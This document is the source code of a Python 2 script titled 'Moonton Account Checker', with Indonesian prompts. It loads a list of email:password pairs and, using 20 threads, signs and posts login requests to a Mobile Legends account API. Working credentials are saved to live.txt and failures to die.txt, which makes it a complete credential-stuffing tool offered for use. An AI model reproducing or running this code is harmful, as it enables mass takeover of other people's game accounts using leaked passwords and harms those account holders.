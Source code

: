 #!usr/bin/python2.7
# coding=utf-8

############################################################
# Name           : Moonton Account Checker                 #
# File           : main.py                                 #
############################################################

import requests, os, sys, hashlib, json
from multiprocessing.pool import ThreadPool

if sys.version_info.major != 2:
  exit('\n[WARNING] Gunakan python versi 2')

class MOONTON:
  def __init__(self):
    self.userdata = []
    self.live = []
    self.die = []
    self.api = 'https://accountmtapi.mobilelegends.com/'
    print('''\033[0m

|V| _  _ __ _|_ _ __    /  |_  _  _  |  _  __
| |(_)(_)| | |_(_)| |   \__| |(/_(_  |<(/_ | 
---------------------------------------------
          -  Zellranss -
---------------------------------------------\n''')

  def main(self):
    print('[!] Pemisah email:password atau email|password\n')
    empas = raw_input('[?] List empas (ex: list.txt): ')
    if os.path.exists(empas):
      for data in open(empas,'r').readlines():
        try:
          user = data.strip().split('|')
          if user[0] and user[1]:
            self.userdata.append({
              'email': user[0],
              'pw': user[1],
              'userdata': data.strip()
            })
        except IndexError:
          try:
            user = data.strip().split(':')
            if user[0] and user[1]:
              self.userdata.append({
              'email': user[0],
              'pw': user[1],
              'userdata': data.strip()
            })
          except: pass
      if len(self.userdata) == 0:
        exit('[!] Empas tidak ada atau tidak valid pastikan berformat email:pass atau email|pass')
      print('[*] Total {0} Account\n'.format(str(len(self.userdata))))
      ThreadPool(20).map(self.validate, self.userdata)
      print('\n[#] BERHASIL: '+str(len(self.live))+' - saved: live.txt')
      print('[#] GAGAL: '+str(len(self.die))+' - saved: die.txt')
      exit(0)
    else:
      print('[!] File tidak ditemukan "{0}"'.format(empas))

  def build_params(self, user):
    md5 = hashlib.new('md5')
    md5.update(user['pw'].encode('utf-8'))
    md5pwd = md5.hexdigest()
    sign = 'account={0}&md5pwd={1}&op=login'.format(user['email'], md5pwd)
    md5 = hashlib.new('md5')
    md5.update(sign.encode('utf-8'))
    hashed = md5.hexdigest()
    return json.dumps({
      'op': 'login',
      'sign': hashed,
      'params': {
        'account': user['email'],
        'md5pwd': md5pwd,
      },
      'lang': 'cn'
    })

  def validate(self, user):
    try:
      data = self.build_params(user)
      response = requests.post(self.api, data=data).json()
      if response['message'] == 'Error_Success':
        print('[\033[92mBERHASIL\033[0m] '+user['userdata'])
        self.live.append(user['userdata'])
        open('live.txt','a').write(str(user['userdata'])+'\n')
      else:
        print('[\033[91mGAGAL\033[0m] '+user['userdata'])
        self.die.append(user['userdata'])
        open('die.txt','a').write(str(user['userdata'])+'\n')
    except:
      self.validate(user)

if __name__ == '__main__':
  (MOONTON().main())
#
#
#
#
